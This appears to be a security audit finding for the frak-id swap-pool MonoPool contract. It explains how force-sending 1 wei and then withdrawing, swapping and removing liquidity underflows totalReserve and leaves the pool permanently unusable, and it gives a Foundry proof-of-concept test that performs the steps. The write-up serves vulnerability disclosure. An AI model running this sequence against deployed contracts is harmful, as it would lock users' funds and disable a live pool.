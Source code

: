 So within the nominal use of the pool we are safe. But is there a way to validate the operation without calling the `MonoPool._receive()` or the `MonoPool._receiveAll()` method?

Yes there is one! A hacker can : (context `1e18/1e18` lps are already on the pool)

- Set up
  - Add liquidity (let’s say `5e18/5e18`) - now `totalReserve = 6e18/6e18`
  - Force send `1 wei` of `token0`
- Operation
  - Withdraw `6e18 + 1`. This will cause `totalReserve` to underflow ([MonoPool.sol#L328](https://github.com/frak-id/swap-pool/blob/a50af11b30f7b735c47e85eb72a02d0a9350d845/src/MonoPool.sol#L328))
  - Swap `token1` to `token0`. The goal here is to have the same value of both tokens so that we can withdraw our liquidity with no leftover.
  - Then we remove the liquidity
  - The transaction is valid and `totalReserve` has underflowed.

Now the contract is under an unrecoverable DOS. `MonoPool._receive()` and `MonoPool._receiveAll()` will always revert at this point.

## POC

```js
function test_H2() public withNativeLiquidity(1 ether, 1 ether) {
    addNativeLiquidity(5 ether, 5 ether, swapUser);
    _logPoolState(pool);

    // send 1 wei of token0
    token0.mint(swapUser, 1);
    vm.prank(swapUser);
    token0.transfer(address(pool), 1);

    // Prank the eth to the user directly
    token0.mint(swapUser, 6 ether + 1);
    vm.prank(swapUser);
    token0.approve(address(pool), 6 ether + 1);

    // Build the send => swap => removeLiq op
    bytes memory program = EncoderLib
    .init()
    .appendSend(true, swapUser, 6 ether + 1)
    .appendSwap(false, 3 ether) // you need to choose this amount carefully to be able to remove liquidity
    .appendRemoveLiquidity(3 ether)
    .done();

    // Send it
    vm.prank(swapUser);
    pool.execute(program);

    _logPoolState(pool);
}
```
